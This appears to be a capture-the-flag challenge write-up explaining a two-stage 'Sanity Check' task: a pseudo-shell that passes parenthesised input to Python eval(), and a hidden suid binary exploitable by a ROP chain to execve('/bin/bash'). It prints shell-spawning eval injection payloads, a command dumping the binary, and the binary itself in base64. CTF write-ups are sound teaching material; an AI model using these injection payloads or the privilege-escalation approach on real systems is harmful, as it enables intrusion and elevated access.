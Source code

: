 Sanity Check consists of two challenges.

Part 1: Basic network test / free flag. You netcat to the ip/port and type `cat flag` for the flag.

Part 2: For those that poke more at the "shell" you get dropped into when you connect, they find that any data between parenthesis will be piped directly to `eval()`. From here, most people will spawn a shell (e.g. `(__import__('os').system('/bin/bash'))`) and start poking around.

In the same working directory, there will be a directory named `delete-me-asap` containing a hidden ROP pwnable and flag. The suid binary is statically compiled and contains all the gadgets and functions needed. Constructing the ROP chain to return to `execve("/bin/bash", NULL, NULL)` will return a shell as elevated user.

The provided solution script will perform both stages of the challeges, providing both flags. The only caveat is that it won't let me grab the base64 encoded binary via pwntools. I'm not sure the reason for this, but the following will output the base64 encoded binary that you can copy/paste/decode into the local working dir so that you can load symbols from it.

`(__import__('os').system('base64\x20/bot/delete-me-asap/challenge'))`

```
# (__import__('os').system('base64\x20/bot/delete-me-asap/challenge'))
f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAgABAAAAAAABAAAAAAAAAAKgDAAAAAAAAAAAAAEAAOAAB
AEAABQAEAAEAAAAFAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAQgEAAAAAAABCAQAAAAAAAAAA
IAAAAAAAAAAAAAAAAADoewAAAEiD7CRIvyEBQAAAAAAAvgkAAADoKAAAAEiNfCTovloAAADoLwAA
AEi/KwFAAAAAAAC+EAAAAOgFAAAA6CwAAABIifJIif64AQAAAL8BAAAA6DwAAADDSInySIn+uAAA
AAC/AAAAAOgmAAAAw7g8AAAAvwAAAADoFgAAAEiJ8kiJ/rhpAAAAvwAAAADoAQAAAMMPBcNYw1/D
XsNaw0ZFRUQgTUU6IMNOT00gTk9NIE5PTS4uLgrDL2Jpbi9zaAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAADAAEAgABAAAAAAAAAAAAAAAAAAAEAAAAEAPH/AAAAAAAAAAAAAAAAAAAA
AA8AAAAAAAEAxQBAAAAAAAAAAAAAAAAAABUAAAAAAAEA2wBAAAAAAAAAAAAAAAAAABoAAAAAAAEA
8QBAAAAAAAAAAAAAAAAAAB8AAAAAAAEAAAFAAAAAAAAAAAAAAAAAACUAAAAAAAEAFgFAAAAAAAAA
AAAAAAAAADAAAAAAAAEAGQFAAAAAAAAAAAAAAAAAADgAAAAAAAEAGwFAAAAAAAAAAAAAAAAAAEAA
AAAAAAEAHQFAAAAAAAAAAAAAAAAAAEgAAAAAAAEAHwFAAAAAAAAAAAAAAAAAAFAAAAAAAAEAIQFA
AAAAAAAAAAAAAAAAAFQAAAAAAAEAKwFAAAAAAAAAAAAAAAAAAFgAAAAAAAEAOwFAAAAAAAAAAAAA
AAAAAGMAAAAQAAEAgABAAAAAAAAAAAAAAAAAAF4AAAAQAAEAQgFgAAAAAAAAAAAAAAAAAGoAAAAQ
AAEAQgFgAAAAAAAAAAAAAAAAAHEAAAAQAAEASAFgAAAAAAAAAAAAAAAAAABjaGFsbGVuZ2UuYXNt
AHdyaXRlAHJlYWQAZXhpdABzZXRpZABkb19zeXNjYWxsAHNldF9yYXgAc2V0X3JkaQBzZXRfcnNp
AHNldF9yZHgAYXNrAG5vbQBiaW5zaABfX2Jzc19zdGFydABfZWRhdGEAX2VuZAAALnN5bXRhYgAu
c3RydGFiAC5zaHN0cnRhYgAudGV4dAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABsAAAABAAAABgAAAAAAAACAAEAAAAAAAIAA
AAAAAAAAwgAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAAABAAAAAgAAAAAAAAAAAAAAAAAA
AAAAAABIAQAAAAAAAMgBAAAAAAAAAwAAAA8AAAAIAAAAAAAAABgAAAAAAAAACQAAAAMAAAAAAAAA
AAAAAAAAAAAAAAAAEAMAAAAAAAB2AAAAAAAAAAAAAAAAAAAAAQAAAAAAAAAAAAAAAAAAABEAAAAD
AAAAAAAAAAAAAAAAAAAAAAAAAIYDAAAAAAAAIQAAAAAAAAAAAAAAAAAAAAEAAAAAAAAAAAAAAAAA
AAA=
```

Pasting the above encoded data into a file, decoding it and piping output to `challenge` will allow the `solve.py` exploit to pull symbols from it. Note that `challenge` and `solve.py` need to be in the same working directroy. 

Once `challenge` is pulled, you can simply run `solve.py 1`. It seems that it may need to be run a couple times as it doesn't look as reliable as expected. After verification, I'll try to work the bugs out of `solve.py` (without modifying other stuff).
